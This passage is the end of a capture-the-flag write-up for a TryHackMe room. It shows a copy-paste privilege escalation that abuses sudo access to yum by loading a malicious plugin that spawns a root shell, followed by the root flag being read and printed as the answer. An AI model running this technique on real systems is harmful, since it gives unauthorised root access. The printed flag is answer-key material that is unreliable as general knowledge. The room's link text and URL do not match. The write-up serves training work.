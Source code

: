 ```shell-session
# Just copy-paste into shell:
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
sh-4.2# whoami
root

sh-4.2# cd /root
sh-4.2# ls
anaconda-ks.cfg  root.txt
sh-4.2# cat root.txt 
eec3d53292b1821868266858d7fa6f79
```

> What is the root flag?
> 
> Answer: `eec3d53292b1821868266858d7fa6f79`


## Conclusion
If this writeup helps, please consider following me on [github](https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [ToolsRus](https://tryhackme.com/room/dailybugle)
